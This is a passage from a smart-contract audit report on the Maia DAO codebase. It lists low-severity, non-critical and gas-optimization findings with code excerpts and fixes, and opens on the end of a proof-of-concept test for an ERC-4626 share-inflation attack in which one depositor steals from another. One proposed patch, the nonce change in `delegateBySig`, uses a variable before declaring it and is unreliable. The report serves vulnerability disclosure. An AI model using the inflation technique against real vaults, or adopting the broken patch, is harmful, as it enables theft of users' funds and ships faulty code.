    // But USER1 deposited 10 VaultToken and USER2 deposited 19 VaultToken – thus, USER1 stole VaultToken tokens from USER2.
    // With withdrawal fees enabled, USER1 would've been penalized more than USER2
    // (14.065 VaultToken vs 14.935 VaultToken tokens withdrawn, respectively),
    // but USER1 would've still gotten more VaultToken that she deposited.
    assertEq(VaultToken.balanceOf(USER1), 14.5e18);
    assertEq(VaultToken.balanceOf(USER2), 14.5e18);
}
```

### Recommendation

Consider either of these options:

1. Consider sending the first 1000 shares to the `address 0`, a mitigation used in Uniswap V2.

2. In the deposit function of project, consider requiring a reasonably high minimal amount of assets during the first deposit. The amount needs to be high enough to mint many shares to reduce the rounding error and low enough to be affordable to users.

3. On the first deposit, consider minting a fixed and high amount of shares; irrespective of the deposited amount.

4. Consider seeding the pools during deployment. This needs to be done in the deployment transactions to avoid front-running attacks. The amount needs to be high enough to reduce the rounding error.

5. Consider sending the first 1000 wei of shares to the `0 address`. This will significantly increase the cost of the attack by forcing an attacker to pay 1000 times of the share price they want to set. For a well-intended user, 1000 wei of shares is a negligible amount that won't diminish their share significantly.

## [L-08] Missing Event for `initialize`

Context: 

```solidity
12 results - 12 files

src/governance/GovernorBravoDelegateMaia.sol:
  55       */
  56:     function initialize(
  57          address timelock_,

src/hermes/interfaces/IBaseV2Minter.sol:
  51       */
  52:     function initialize(FlywheelGaugeRewards _flywheelGaugeRewards) external;
  53  

src/hermes/minters/BaseV2Minter.sol:
  77      /// @inheritdoc IBaseV2Minter
  78:     function initialize(FlywheelGaugeRewards _flywheelGaugeRewards) external {
  79          if (initializer != msg.sender) revert NotInitializer();

src/ulysses-omnichain/BaseBranchRouter.sol:
  36      /// @notice Contract state initialization function.
  37:     function initialize(address _localBridgeAgentAddress) external onlyOwner {
  38          require(_localBridgeAgentAddress != address(0), "Bridge Agent address cannot be 0");

src/ulysses-omnichain/BranchPort.sol:
  98  
  99:     function initialize(address _coreBranchRouter, address _bridgeAgentFactory) external virtual onlyOwner {
  100          require(coreBranchRouterAddress == address(0), "Contract already initialized");

src/ulysses-omnichain/CoreRootRouter.sol:
  62  
  63:     function initialize(address _bridgeAgentAddress, address _hTokenFactory) external onlyOwner {
  64          bridgeAgentAddress = payable(_bridgeAgentAddress);

src/ulysses-omnichain/MulticallRootRouter.sol:
  73  
  74:     function initialize(address _bridgeAgentAddress) external onlyOwner {
  75          require(_bridgeAgentAddress != address(0), "Bridge Agent Address cannot be 0");

src/ulysses-omnichain/RootPort.sol:
  127  
  128:     function initialize(address _bridgeAgentFactory, address _coreRootRouter) external onlyOwner {
  129          require(_setup, "Setup ended.");

src/ulysses-omnichain/factories/ArbitrumBranchBridgeAgentFactory.sol:
  53  
  54:     function initialize(address _coreRootBridgeAgent) external override onlyOwner {
  55          address newCoreBridgeAgent = address(

src/ulysses-omnichain/factories/BranchBridgeAgentFactory.sol:
  82  
  83:     function initialize(address _coreRootBridgeAgent) external virtual onlyOwner {
  84          require(_coreRootBridgeAgent != address(0), "Core Root Bridge Agent cannot be 0");

src/ulysses-omnichain/factories/ERC20hTokenBranchFactory.sol:
  34  
  35:     function initialize(address _wrappedNativeTokenAddress, address _coreRouter) external onlyOwner {
  36          require(_coreRouter != address(0), "CoreRouter address cannot be 0");

src/ulysses-omnichain/factories/ERC20hTokenRootFactory.sol:
  39  
  40:     function initialize(address _coreRouter) external onlyOwner {
  41          require(_coreRouter != address(0), "CoreRouter address cannot be 0");

```

Events help non-contract tools to track changes and prevent users from being surprised by changes. Issuing an `event-emit` during initialization is a detail that many projects skip.

### Recommendation

Add an `Event-Emit`.

## [L-09] Missing a `maxwithdraw` check in the withdraw function of ERC-4626

In the [EIP-4626](https://eips.ethereum.org/EIPS/eip-4626#maxwithdraw) specification it reads:
> Maximum amount of the underlying asset that can be withdrawn from the owner balance in the Vault, through a withdraw call.

However, the `withdraw` functions miss this check.

Context: 

```solidity
src/erc-4626/ERC4626.sol:
  60      /// @inheritdoc IERC4626
  61:     function withdraw(uint256 assets, address receiver, address owner) public virtual returns (uint256 shares) {
  62:         shares = previewWithdraw(assets); // No need to check for rounding error, previewWithdraw rounds up.
  63: 
  64:         if (msg.sender != owner) {
  65:             uint256 allowed = allowance[owner][msg.sender]; // Saves gas for limited approvals.
  66: 
  67:             if (allowed != type(uint256).max) allowance[owner][msg.sender] = allowed - shares;
  68:         }
  69: 
  70:         beforeWithdraw(assets, shares);
  71: 
  72:         _burn(owner, shares);
  73: 
  74:         emit Withdraw(msg.sender, receiver, owner, assets, shares);
  75: 
  76:         address(asset).safeTransfer(receiver, assets);
  77:     }


src/erc-4626/ERC4626MultiToken.sol:
  130  
  131:     /// @inheritdoc IERC4626MultiToken
  132:     function withdraw(uint256[] calldata assetsAmounts, address receiver, address owner)
  133:         public
  134:         virtual
  135:         nonReentrant
  136:         returns (uint256 shares)
  137:     {
  138:         shares = previewWithdraw(assetsAmounts); // No need to check for rounding error, previewWithdraw rounds up.
  139: 
  140:         if (msg.sender != owner) {
  141:             uint256 allowed = allowance[owner][msg.sender]; // Saves gas for limited approvals.
  142: 
  143:             if (allowed != type(uint256).max) allowance[owner][msg.sender] = allowed - shares;
  144:         }
  145: 
  146:         beforeWithdraw(assetsAmounts, shares);
  147: 
  148:         _burn(owner, shares);
  149: 
  150:         emit Withdraw(msg.sender, receiver, owner, assetsAmounts, shares);
  151: 
  152:         sendAssets(assetsAmounts, receiver);
  153:     }
```

### Recommendation

An additional check is added to the function `withdraw` in `ERC4626.sol`. This checks if the amount of the asset is less than or equal to the amount allowed by the owner.

```diff

src/erc-4626/ERC4626.sol:
  61:     function withdraw(uint256 assets, address receiver, address owner) public virtual returns (uint256 shares) {
  62:         shares = previewWithdraw(assets); // No need to check for rounding error, previewWithdraw rounds up.
  63: 
  64:         if (msg.sender != owner) {
  65:             uint256 allowed = allowance[owner][msg.sender]; // Saves gas for limited approvals.
  66: 
- 67:             if (allowed != type(uint256).max) allowance[owner][msg.sender] = allowed - shares;
+                   if (allowed != type(uint256).max) {
+              	         require(assets <= allowance[owner][msg.sender], "amount to be withdraw is more than allowed");
+                        allowance[owner][msg.sender] = allowed - shares;
+                   }
  68:         }
  69: 
  70:         beforeWithdraw(assets, shares);
  71: 
  72:         _burn(owner, shares);
  73: 
  74:         emit Withdraw(msg.sender, receiver, owner, assets, shares);
  75: 
  76:         address(asset).safeTransfer(receiver, assets);
  77:     }

```

## [L-10] Processing of `poolId` and `tokenId` incorrectly starts with a "2" instead of a "1"

The `poolId` and `tokenId` values are initialized with "1" in the contract by default, but when creating the pool and token with the `create` functions, the first value is set to "2". Therefore Ids 1 are empty; this causes problems in the processing arrays and monitoring in the offchain.

```diff

src/ulysses-amm/factories/UlyssesFactory.sol:
  47  
  48:     ///@notice next poolId
- 49:     uint256 public poolId = 1;
+           uint256 public poolId; // Default value 0
  50: 
  51:     ///@notice next tokenId
- 52:     uint256 public tokenId = 1;
+           uint256 public tokenId; // Default value 0
83:     function _createPool(ERC20 asset, address owner) private returns (uint256 _poolId) {
  84:         if (address(asset) == address(0)) revert InvalidAsset();
  85:         _poolId = ++poolId;
  86:         pools[_poolId] =
  87:             UlyssesPoolDeployer.deployPool(_poolId, address(asset), "Ulysses Pool", "ULP", owner, address(this));
  88:     }

```

## [L-11] If `onlyOwner` runs `renounceOwnership()` in the `PartnerManagerFactory` contract, the contract may become unavailable

There are two dynamic arrays in the `PartnerManagerFactory` contract, as values are added to these arrays with the `push` keyword. If the number in these arrays increases, the block may be over the gas limit. For such cases, it is necessary to have the feature of deleting elements from the array with the `pop` keyword. This is exactly what the contract has:

```solidity
src/maia/factories/PartnerManagerFactory.sol:
  21:     PartnerManager[] public override partners;
  24:     IBaseVault[] public override vaults;


src/maia/factories/PartnerManagerFactory.sol:
  79      /// @inheritdoc IPartnerManagerFactory
  80:     function removePartner(PartnerManager partnerManager) external onlyOwner {
  81:         if (partners[partnerIds[partnerManager]] != partnerManager) revert InvalidPartnerManager();
  82:         delete partners[partnerIds[partnerManager]];
  83:         delete partnerIds[partnerManager];
  84: 
  85:         emit RemovedPartner(partnerManager);
  86:     }

  89:     function removeVault(IBaseVault vault) external onlyOwner {
  90:         if (vaults[vaultIds[vault]] != vault) revert InvalidVault();
  91:         delete vaults[vaultIds[vault]];
  92:         delete vaultIds[vault];
  93: 
  94:         emit RemovedVault(vault);
  95:     }

```

Therefore, the `onlyOwner` authority here is very important for the contract; however, the `Ownable.sol` library imported has the `renounceOwnership()` feature. In case the owner accidentally triggers this function, the remove functions will not work and the contract will block gas due to arrays. This may have a continuous structure that exceeds its limit.

https://github.com/Vectorized/solady/blob/main/src/auth/Ownable.sol#L136

```solidity

src/maia/factories/PartnerManagerFactory.sol:
    4: import {Ownable} from "solady/auth/Ownable.sol";
  12: contract PartnerManagerFactory is Ownable, IPartnerManagerFactory {
```

### Recommendation

The solution to this, is to override and disable the `renounceOwnership()` function, as implemented in many contracts in this project. It is important to include this code in the contract:

```solidity
 function renounceOwnership() public payable override onlyOwner {
        revert("Cannot renounce ownership");
    }
```

### [L-12] There isnt a `skim` function

A user can lose tokens which were sent directly to the `UlyssesPool` contract, without using special functions in [`UlyssesPool.sol`](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-amm/UlyssesPool.sol#L19).
 
A user can't get back any tokens if they mistakenly send them directly to `pool.sol` (using the transfer function of the token contract).

https://medium.com/coinmonks/how-to-sync-and-skim-in-uniswap-b536c921e66e

### Recommendation

Add a `skim` function, like in uniswap, which allows users to transfer their tokens back. For this purpose, a contract should know the exact count of their loan/collateral tokens, which were transferred through `deposit`, `withdraw`, `borrow`, etc. functions.

## [L-13] Contract `ERC4626.sol` is used as a dependency; does not track upstream changes
 
ERC4626 uses a modified version of solmate's ERC4626 implementation, but the documentation does not specify which version or commit is used. This indicates, that the protocol does not track upstream changes in contracts used as dependencies. Therefore, contracts may not reflect updates or security fixes implemented in their dependencies, as these updates need to be manually integrated.

Exploit Scenario:

A third-party contract (Solmate's ERC4626) is used in a project that receives an update with a critical fix for a vulnerability; however, the update is not yet manually integrated in the current version of the protocol. An attacker detects the use of the vulnerable ERC4626 contract in the protocol and exploits the vulnerability.

Codebase reference: [ERC4626.sol](https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/ERC4626.sol)

### Recommendation

Review the codebase and document the source and version of each dependency. Include third-party sources as modules in the project to maintain path consistency and ensure the dependencies are updated periodically.

## [L-14] Use ERC-5143: Slippage Protection for Tokenized Vault

The project uses the ERC-4626 standard. EIP-4626 is vulnerable to the so-called inflation attacks. This attack results from the possibility to manipulate the exchange rate and front-run a victim’s deposit when the vault has low liquidity volume.

### Recommendation

[This standard](https://eips.ethereum.org/EIPS/eip-5143) extends the EIP-4626 Tokenized Vault with functions dedicated to the safe interaction between EOAs and the vault when the price is subject to slippage.

## [N-01] Unused Imports

Some imports aren’t used inside the project:

```solidity
src/erc-20/ERC20Boost.sol:

   12: import {IBaseV2Gauge} from "@gauges/interfaces/IBaseV2Gauge.sol";
   14: import {Errors} from "./interfaces/Errors.sol";


src/maia/vMaia.sol:
  6: import {Ownable} from "solady/auth/Ownable.sol";

```

## [N-02] `Assembly` codes, specifically, should have comments

Since this is a low level language that is more difficult to parse by readers, include extensive documentation and comments on the rationale behind its use, clearly explaining what each assembly instruction does.

This will make it easier for users to trust the code, for reviewers to validate the code, and for developers to build on or update the code.

*Note: Using `Assembly` removes several important security features of Solidity, which can make the code more insecure and more error-prone.*

```solidity
src/governance/GovernorBravoDelegateMaia.sol:
  537          uint256 chainId;
  538:         assembly {

src/governance/GovernorBravoDelegator.sol:
  60          (bool success, bytes memory returnData) = callee.delegatecall(data);
  61:         assembly {
  62              if eq(success, 0) { revert(add(returnData, 0x20), returndatasize()) }
  75:         assembly {
  76              let free_mem_ptr := mload(0x40)

src/maia/libraries/DateTimeLib.sol:
  42          /// @solidity memory-safe-assembly
  43:         assembly {
  44:             epochDay := add(epochDay, 719468)
  45              let doe := mod(epochDay, 146097)

src/ulysses-amm/UlyssesPool.sol:
   355          /// @solidity memory-safe-assembly
   356:         assembly {
   379          /// @solidity memory-safe-assembly
   380:         assembly {

   552          /// @solidity memory-safe-assembly
   553:         assembly {

   580          /// @solidity memory-safe-assembly
   581:         assembly {
   582              switch positiveTransfer

   632          /// @solidity memory-safe-assembly
   633:         assembly {
   634              switch lt(newRebalancingFee, oldRebalancingFee)

   697          // @solidity memory-safe-assembly
   698:         assembly {
   699              // Load the rebalancing fee slot to get the fee parameters

   736          /// @solidity memory-safe-assembly
   737:         assembly {
```

## [N-03] With `0 address` control of `owner`, it is a best practice to maintain consistency across the entire codebase

The `owner` authority is an important authorization in almost all contracts. This address is defined in the constructor or `initialize`, where `0 address` control is already included in the Automatic discovery.

However, in the codebase, while some contracts check with the `require(_owner != address(0))` statement, some contracts do not. For consistency in the codebase, specify a single style in such critical definitions.

`0 Address` check contracts:
```solidity
5 results - 5 files

src/ulysses-amm/UlyssesPool.sol:
  87      ) UlyssesERC4626(_asset, _name, _symbol) {
  88:         require(_owner != address(0));
  89          factory = UlyssesFactory(_factory);

src/ulysses-amm/factories/UlyssesFactory.sol:
  60      constructor(address _owner) {
  61:         require(_owner != address(0), "Owner cannot be 0");
  62          _initializeOwner(_owner);

src/ulysses-omnichain/BranchPort.sol:
  94      constructor(address _owner) {
  95:         require(_owner != address(0), "Owner is zero address");
  96          _initializeOwner(_owner);

src/ulysses-omnichain/RootPort.sol:
  158      function forefeitOwnership(address _owner) external onlyOwner {
  159:         require(_owner != address(0), "Owner cannot be 0 address.");
  160          _setOwner(address(_owner));

src/ulysses-omnichain/factories/BranchBridgeAgentFactory.sol:
  69          require(_localPortAddress != address(0), "Port Address cannot be 0");
  70:         require(_owner != address(0), "Owner cannot be 0");
  71 

```

## [N-04] `DIVISIONER` is inconsistent across contracts

The constant `DIVISIONER` declared in `GovernorBravoDelegateMaia.sol` is 1 ether (1e18), but in `BoostAggregator.sol` it is 10000. In `BranchPort.sol` it's called 1e4.

```solidity
src/governance/GovernorBravoDelegateMaia.sol:
  36:     uint256 public constant DIVISIONER = 1 ether;

src/talos/boost-aggregator/BoostAggregator.sol:
  56:     uint256 private constant DIVISIONER = 10000;

src/ulysses-amm/UlyssesPool.sol:
  65:     uint256 private constant DIVISIONER = 1 ether;

src/ulysses-omnichain/BranchPort.sol:
  91:     uint256 internal constant DIVISIONER = 1e4;

```

### Recommendation 

Consider using the same `DIVISIONER` name and value to be more consistent across the codebase.

## [N-05] The `nonce` architecture of the `delegateBySig()` function isn’t usefull  

The user who needs to use this function must know the next `nonce` value in each operation and add it to the arguments. If they cannot find it, the function will revert. We can probably get this by querying the `nonce` mapping on the blockchain during the front-end, but this is not an architecturally correct design and seriously consumes resources.

As best practice, we can provide practicality by using the design pattern that is used in many projects. You can find the updated code below:

```diff
src/erc-20/ERC20MultiVotes.sol:
  362  
  363:     function delegateBySig(address delegatee, uint256 nonce, uint256 expiry, uint8 v, bytes32 r, bytes32 s) public {
  364:         require(block.timestamp <= expiry, "ERC20MultiVotes: signature expired");
+                 uint256 currentValidNonce = _nonces[signer];
  365:         address signer = ecrecover(
  366:             keccak256(
  367:                 abi.encodePacked(
- 368:                     "\x19\x01", DOMAIN_SEPARATOR(), keccak256(abi.encode(DELEGATION_TYPEHASH, delegatee, nonce, expiry))
+	               "\x19\x01", DOMAIN_SEPARATOR(), keccak256(abi.encode(DELEGATION_TYPEHASH, delegatee, currentValidNonce, expiry))
  369:                 )
  370:             ),
  371:             v,
  372:             r,
  373:             s
  374:         );
- 375:         require(nonce == nonces[signer]++, "ERC20MultiVotes: invalid nonce");
+	 _nonces[signer] = currentValidNonce + 1;
  376:         require(signer != address(0));
  377:         _delegate(signer, delegatee);
  378:     }
```

## [N-06] Does not `event-emit` during significant parameter changes

The following 3 parameter changes update important states and off-chain apps need to `emit` to track them. Add an `emit` to these functions:

```solidity
src/talos/boost-aggregator/BoostAggregator.sol:

  143:     function addWhitelistedAddress(address user) external onlyOwner {
  144:         whitelistedAddresses[user] = true;
  145:     }

  148:     function removeWhitelistedAddress(address user) external onlyOwner {
  149:         delete whitelistedAddresses[user];
  150:     }

  153:     function setProtocolFee(uint256 _protocolFee) external onlyOwner {
  154:         if (_protocolFee > DIVISIONER) revert FeeTooHigh();
  155:         protocolFee = _protocolFee;
  156:     }

```

**[0xBugsy (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/586#issuecomment-1633256151)**

**[Trust (judge) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/586#issuecomment-1658538974):**
 > Severity changes:<br>
> L-04 -> Non-Critical, no direct threat has been articulated.<br>
> L-05 -> Non-Critical, no actual bug in the code.<br>
> L-06 -> Non-Critical, too speculative.<br>
> L-08 -> Non-Critical, `emitting-event` on `init` is optional.<br>
> L-13 -> Non-Critical, speculative.<br>

***

# Gas Optimizations

For this audit, 27 reports were submitted by wardens detailing gas optimizations. The [report highlighted below](https://github.com/code-423n4/2023-05-maia-findings/issues/842) by **Raihan** received the top score from the judge.

*The following wardens also submitted reports: [0xSmartContract](https://github.com/code-423n4/2023-05-maia-findings/issues/896), 
[SAQ](https://github.com/code-423n4/2023-05-maia-findings/issues/888), 
[0xAnah](https://github.com/code-423n4/2023-05-maia-findings/issues/879), 
[MohammedRizwan](https://github.com/code-423n4/2023-05-maia-findings/issues/878), 
[SM3\_SS](https://github.com/code-423n4/2023-05-maia-findings/issues/877), 
[petrichor](https://github.com/code-423n4/2023-05-maia-findings/issues/848), 
[naman1778](https://github.com/code-423n4/2023-05-maia-findings/issues/832), 
[ReyAdmirado](https://github.com/code-423n4/2023-05-maia-findings/issues/805), 
[Aymen0909](https://github.com/code-423n4/2023-05-maia-findings/issues/798), 
[JCN](https://github.com/code-423n4/2023-05-maia-findings/issues/796), 
[shamsulhaq123](https://github.com/code-423n4/2023-05-maia-findings/issues/774), 
[kaveyjoe](https://github.com/code-423n4/2023-05-maia-findings/issues/711), 
[0x11singh99](https://github.com/code-423n4/2023-05-maia-findings/issues/708), 
[hunter\_w3b](https://github.com/code-423n4/2023-05-maia-findings/issues/602), 
[Rolezn](https://github.com/code-423n4/2023-05-maia-findings/issues/558), 
[IllIllI](https://github.com/code-423n4/2023-05-maia-findings/issues/549), 
[Rageur](https://github.com/code-423n4/2023-05-maia-findings/issues/544), 
[TheSavageTeddy](https://github.com/code-423n4/2023-05-maia-findings/issues/524), 
[0xn006e7](https://github.com/code-423n4/2023-05-maia-findings/issues/491), 
[matrix\_0wl](https://github.com/code-423n4/2023-05-maia-findings/issues/463), 
[Rickard](https://github.com/code-423n4/2023-05-maia-findings/issues/452), 
[Jorgect](https://github.com/code-423n4/2023-05-maia-findings/issues/431), 
[lsaudit](https://github.com/code-423n4/2023-05-maia-findings/issues/425), 
[wahedtalash77](https://github.com/code-423n4/2023-05-maia-findings/issues/230), 
[DavidGiladi](https://github.com/code-423n4/2023-05-maia-findings/issues/196) and 
[Sathish9098](https://github.com/code-423n4/2023-05-maia-findings/issues/13).*

|      |   ISSUE   |  INSTANCE  |
|------|-----------|------------|
| [G&#8209;01] | Avoid contract existence checks by using low level calls | 168 |
| [G&#8209;02] | Massive 15k per tx gas savings - use 1 and 2 for Reentrancy guard | 28 |
| [G&#8209;03] | Avoid emitting storage values | 3 |
| [G&#8209;04] | Using `>` 0 costs more gas than `!=` 0 when used on a uint in a `require()` statement | 2 |
| [G&#8209;05] | Can make the variable outside of the loop to save gas | 27 |
| [G&#8209;06] | Structs can be packed into fewer storage slots | 6 |
| [G&#8209;07] | Make 3 event parameters indexed when possible | 75 |
| [G&#8209;08] | `>=` costs less gas than `>` | 21 |
| [G&#8209;09] | Expressions for constant values, such as a call to `keccak256()`, should use `immutable` rather than `constant` | 3 |
| [G&#8209;10] | Using `private` rather than pub`lic for constants saves gas | 10 |
| [G&#8209;11] | Do not calculate constants | 2 |
| [G&#8209;12] | State variables can be cached instead of re-reading them from storage | 10 |
| [G&#8209;13] | Add unchecked `{}` for subtractions where the operands cannot underflow because of a previous `require()` or `if-statement` | 6 |
| [G&#8209;14] | `abi.encode()` is less efficient than `abi.encodePacked()` | 4 |
| [G&#8209;15] | Use constants instead of `type(uintx).max` | 40 |
| [G&#8209;16] | Use hardcode address instead of `address(this)` | 42 |
| [G&#8209;17] | A modifier used only once and not being inherited should be inlined to save gas | 7 |
| [G&#8209;18] | Using a delete statement can save gas | 5 |
| [G&#8209;19] | Amounts should be checked for `0` before calling a transfer | 5 |
| [G&#8209;20] | Use assembly to hash instead of solidity | 6 |
| [G&#8209;21] | Loop best practice to save gas | 14 |
| [G&#8209;22] | Gas savings can be achieved by changing the model for assigning value to the structure | 8 |
| [G&#8209;23] | Use `assembly` for math (add, sub, mul, div) | 6 |
| [G&#8209;24] | Access mappings directly rather than using accessor functions | 10 |
| [G&#8209;25] | Internal functions that are not called by the contract should be removed to save deployment gas | 1 |
| [G&#8209;26] | Use mappings instead of arrays | 2 |
| [G&#8209;27] | Use `Short-Circuiting` rules to your advantage | 1 |
| [G&#8209;28] | Use `ERC721A` instead `ERC721` | - |

## [G‑01] Avoid contract existence checks by using low level calls

Prior to 0.8.10, the compiler inserted extra code, including `EXTCODESIZE` (100 gas), to check for contract existence for external function calls. In more recent solidity versions, the compiler will not insert these checks if the external call has a return value. Similar behavior can be achieved in earlier versions by using low-level calls, since low level calls never check for contract existence.

There are 168 instances of this issue:

<details>

```solidity
File: /src/erc-20/ERC20Gauges.sol
208    IBaseV2Gauge(gauge).accrueBribes(user);
```
https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/ERC20Gauges.sol#L208

```solidity
File: /src/erc-4626/UlyssesERC4626.sol
27   if (ERC20(_asset).decimals() != 18) revert InvalidAssetDecimals();
```
https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-4626/UlyssesERC4626.sol#L27


```solidity
File: /src/gauges/factories/UniswapV3GaugeFactory.sol
100   UniswapV3Gauge(gauge).setMinimumWidth(minimumWidth);
```
https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/factories/UniswapV3GaugeFactory.sol#L100

```solidity
File: /src/gauges/UniswapV3Gauge.sol
54    IUniswapV3Staker(uniswapV3Staker).createIncentiveFromGauge(amount);
```
https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/UniswapV3Gauge.sol#L54


```solidity
File: /src/hermes/minters/BaseV2Minter.sol
61    underlying = address(ERC4626(_vault).asset());

109   return HERMES(underlying).totalSupply() - vault.totalAssets();

119   return (vault.totalAssets() * _minted) / HERMES(underlying).totalSupply();

140   HERMES(underlying).mint(address(this), _required - _balanceOf);
```
https://github.com/code-423n4/2023-05-maia/blob/main/src/hermes/minters/BaseV2Minter.sol#L61

```solidity
File: /src/maia/tokens/ERC4626PartnerManager.sol

192   if (oldPartnerVault != address(0)) IBaseVault(oldPartnerVault).clearAll();

206   if (newPartnerVault != address(0)) IBaseVault(newPartnerVault).applyAll();

244   ERC20MultiVotes(partnerGovernance).mint(address(this), amount * bHermesRate);
```
https://github.com/code-423n4/2023-05-maia/blob/main/src/maia/tokens/ERC4626PartnerManager.sol#L192

```solidity
File: /src/rewards/FlywheelCoreInstant.sol
41    return IFlywheelInstantRewards(flywheelRewards).getAccruedRewards();
```
https://github.com/code-423n4/2023-05-maia/tree/main/src/rewards/FlywheelCoreInstant.sol#L41


```solidity
File: /src/rewards/FlywheelCoreStrategy.sol
40   return IFlywheelAcummulatedRewards(flywheelRewards).getAccruedRewards(strategy);
```
https://github.com/code-423n4/2023-05-maia/tree/main/src/rewards/FlywheelCoreStrategy.sol#L40


```solidity
File: /src/talos/TalosStrategyStaked.sol
82    _boostAggregator.setOwnRewardsDepot(address(FlywheelInstantRewards(_flywheel.flywheelRewards()).rewardsDepot()));
```
https://github.com/code-423n4/2023-05-maia/tree/main/src/talos/TalosStrategyStaked.sol#L82

```solidity
File: /src/ulysses-omnichain/factories/ArbitrumBranchBridgeAgentFactory.sol
104   IPort(localPortAddress).addBridgeAgent(newBridgeAgent);
```
https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/factories/ArbitrumBranchBridgeAgentFactory.sol#L104

```solidity
File: /src/ulysses-omnichain/factories/BranchBridgeAgentFactory.sol
99    IPort(localPortAddress).addBridgeAgent(newCoreBridgeAgent);

139   IPort(localPortAddress).addBridgeAgent(newBridgeAgent);
```

https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/factories/BranchBridgeAgentFactory.sol#L99

```solidity
File: /src/ulysses-omnichain/factories/RootBridgeAgentFactory.sol
62    local`AnyCall`ExecutorAddress = IAnycallProxy(local`AnyCall`Address).executor();

88    IRootPort(rootPortAddress).addBridgeAgent(msg.sender, newBridgeAgent);
```

https://github.com/code-423n4/2023-05-maia/tree/main/src/ulysses-omnichain/factories/RootBridgeAgentFactory.sol#L62

```solidity
File: /src/ulysses-omnichain/ArbitrumBranchBridgeAgent.sol
103   IArbPort(localPortAddress).depositToPort(
            msg.sender, msg.sender, underlyingAddress, _normalizeDecimals(amount, ERC20(underlyingAddress).decimals())
        );

115   IArbPort(localPortAddress).withdrawFromPort(msg.sender, msg.sender, localAddress, amount);

143   IRootBridgeAgent(rootBridgeAgentAddress).anyExecute(_callData);
```

https://github.com/code-423n4/2023-05-maia/tree/main/src/ulysses-omnichain/ArbitrumBranchBridgeAgent.sol#L103

```solidity
File: /src/ulysses-omnichain/ArbitrumBranchPort.sol
49    address globalToken = IRootPort(rootPortAddress).getLocalTokenFromUnder(_underlyingAddress, localChainId);

54    IRootPort(rootPortAddress).mintToLocalBranch(_recipient, globalToken, _deposit);

62    if (!IRootPort(rootPortAddress).isGlobalToken(_globalAddress, localChainId)) {

66     address underlyingAddress = IRootPort(rootPortAddress).getUnderlyingTokenFromLocal(_globalAddress, localChainId);

70   IRootPort(rootPortAddress).burnFromLocalBranch(_depositor, _globalAddress, _deposit);

72   underlyingAddress.safeTransfer(_recipient, _denormalizeDecimals(_deposit, ERC20(underlyingAddress).decimals()));

82   _recipient, _denormalizeDecimals(_deposit, ERC20(_underlyingAddress).decimals())

92    IRootPort(rootPortAddress).bridgeToLocalBranchFromRoot(_recipient, _localAddress, _amount);

102   IRootPort(rootPortAddress).bridgeToLocalBranchFromRoot(_recipient, _localAddresses[i], _amounts[i]);

120   _depositor, address(this), _denormalizeDecimals(_deposit, ERC20(_underlyingAddress).decimals())

124   IRootPort(rootPortAddress).bridgeToRootFromLocalBranch(_depositor, _localAddress, _amount - _deposit);

141   _denormalizeDecimals(_deposits[i], ERC20(_underlyingAddresses[i]).decimals())

145   IRootPort(rootPortAddress).bridgeToRootFromLocalBranch(
                    _depositor, _localAddresses[i], _amounts[i] - _deposits[i]
                );
```

https://github.com/code-423n4/2023-05-maia/tree/main/src/ulysses-omnichain/ArbitrumBranchPort.sol#L49

```solidity
File: /src/ulysses-omnichain/ArbitrumCoreBranchRouter.sol
49  string memory name = ERC20(_underlyingAddress).name();

50  string memory symbol = ERC20(_underlyingAddress).symbol();

59   IBridgeAgent(localBridgeAgentAddress).performCallOut(msg.sender, packedData, 0, 0);

83    if (!IPort(localPortAddress).isBridgeAgentFactory(_branchBridgeAgentFactory)) {

88   address newBridgeAgent = IBridgeAgentFactory(_branchBridgeAgentFactory).createBridgeAgent(
            _newBranchRouter, _rootBridgeAgent, _rootBridgeAgentFactory
        );    

93   if (!IPort(localPortAddress).isBridgeAgent(newBridgeAgent)) {

104  IBridgeAgent(localBridgeAgentAddress).performSystemCallOut(address(this), packedData, 0, 0);    
```

https://github.com/code-423n4/2023-05-maia/tree/main/src/ulysses-omnichain/ArbitrumCoreBranchRouter.sol#L49

```solidity
File: /src/ulysses-omnichain/BaseBranchRouter.sol
40    bridgeAgentExecutorAddress = IBridgeAgent(localBridgeAgentAddress).bridgeAgentExecutorAddress();

50    return IBridgeAgent(localBridgeAgentAddress).getDepositEntry(_depositNonce);

59    IBridgeAgent(localBridgeAgentAddress).performCallOut{value: msg.value}(
            msg.sender, params, 0, remoteExecutionGas
        );
70     IBridgeAgent(localBridgeAgentAddress).performCallOutAndBridge{value: msg.value}(
            msg.sender, params, dParams, 0, remoteExecutionGas
        );
81         IBridgeAgent(localBridgeAgentAddress).performCallOutAndBridgeMultiple{value: msg.value}(
            msg.sender, params, dParams, 0, remoteExecutionGas
        );

88      IBridgeAgent(localBridgeAgentAddress).retrySettlement{value: msg.value}(_settlementNonce, _gasToBoostSettlement);

93    IBridgeAgent(localBridgeAgentAddress).redeemDeposit(_depositNonce);
```

https://github.com/code-423n4/2023-05-maia/tree/main/src/ulysses-omnichain/BaseBranchRouter.sol#L40

```solidity
File: /src/ulysses-omnichain/BranchBridgeAgent.sol
252   _normalizeDecimals(_dParams.deposit, ERC20(_dParams.token).decimals()),

284   _deposits[i] = _normalizeDecimals(_dParams.deposits[i], ERC20(_dParams.tokens[i]).decimals());

342    getDeposit[_depositNonce].deposits[0], ERC20(getDeposit[_depositNonce].tokens[0]).decimals()

357     getDeposit[_depositNonce].deposits[0], ERC20(getDeposit[_depositNonce].tokens[0]).decimals()

624      IPort(localPortAddress).bridgeIn(_recipient, _hTokens[i], _amounts[i] - _deposits[i]);

628    IPort(localPortAddress).withdraw(_recipient, _tokens[i], _deposits[i]);

687    _normalizeDecimals(_dParams.deposit, ERC20(_dParams.token).decimals()),

720    deposits[i] = _normalizeDecimals(_dParams.deposits[i], ERC20(_dParams.tokens[i]).decimals());

866    IPort(localPortAddress).bridgeOut(_user, _hToken, _token, _amount, _deposit);

912    IPort(localPortAddress).bridgeOutMultiple(_user, _hTokens, _tokens, _amounts, _deposits);

980     IPort(localPortAddress).bridgeIn(_recipient, _hToken, _amount - _deposit);

